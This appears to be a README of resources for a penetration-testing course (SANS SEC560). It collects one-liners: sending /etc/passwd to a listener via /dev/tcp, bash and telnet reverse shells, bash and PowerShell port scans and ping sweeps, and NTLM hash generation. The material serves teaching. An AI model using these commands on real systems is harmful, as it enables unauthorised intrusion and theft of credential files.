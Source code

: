 # Resources referenced during SEC560 classes


## Day 2

### Neat things you can do with tcpdump

https://www.middlewareinventory.com/blog/tcpdump-capture-http-get-post-requests-apache-weblogic-websphere/


### Some fun with cowsay and lolcat (thanks to Jeff McJunkin):
    while true; clear; do echo "I'm a cow" | cowsay -f $(ls /usr/share/cowsay/cows/ | sort -R | head -n1) "I'm a cow" | lolcat -a; sleep 5; clear; done



### Netcat without netcat

Check for existence of similar tools:
Gnu Netcat
Ncat
Socat
Linkcat
Nc.py (sometimes called Pycat) http://atlas.r4780y.com/resources/atlasutils-2.2.5.tgz

#### /dev/tcp
File transfers:
Box 1: # nc -nlvp 4444
Box 2: $ cat /etc/passwd > /dev/tcp/10.0.0.1/4444

Reverse shell:
Box 1: # nc -nlvp 8080
Box 2: $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Port scanner ("Connection refused" means port is closed):
Single port:    $ echo > /dev/tcp/10.0.0.1/22
Multiple ports: $ port=1; while \[ $port –lt 1024 ]; do echo > /dev/tcp/\[IPaddr]/$port; \[ $? == 0 ] && echo $port "is open" >> /tmp/ports.txt; port=`expr $port + 1`; done


#### If /dev/tcp can't be used, try telnet
Reverse shell:
Box 1 (where you type commands):   # nc -nlvp 4444
Box 1 (where you view the output): # nc -nlvp 4445
Box 2: $ telnet 10.0.0.1 4444 | /bin/bash | telnet 10.0.0.1 4445



#### Powershell
Ping sweep:

    PS C:\> 1..255 | % {ping –n 1 10.10.10.$_ | sls ttl}
    1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

Port scan:

    21..80 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.1",$_)) “Port $_ is open" } 2>$null


## Day 5


Generate NTLM hash if you know the password:

    python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'


## After class is over

Build your own SEC560 lab environment:

10.10.10.5, 10.10.10.10, and 10.10.10.20 (the DC requires an additional step to promote it to a DC):
* https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/


## Install searchsploit on Slingshot
    sudo git clone https://github.com/offensive-security/exploitdb.git /opt/exploitdb
    sed 's|path_array+=(.*)|path_array+=("/opt/exploitdb")|g' /opt/exploitdb/.searchsploit_rc > ~/.searchsploit_rc
    sudo ln -sf /opt/exploitdb/searchsploit /usr/local/bin/searchsploit


## Credits
* Ed Skoudis
* http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* egre55 and mrh4sh from hackthebox.eu
* Bryce from Australia
* Jeff McJunkin's great 560 class notes https://bit.ly/560notes
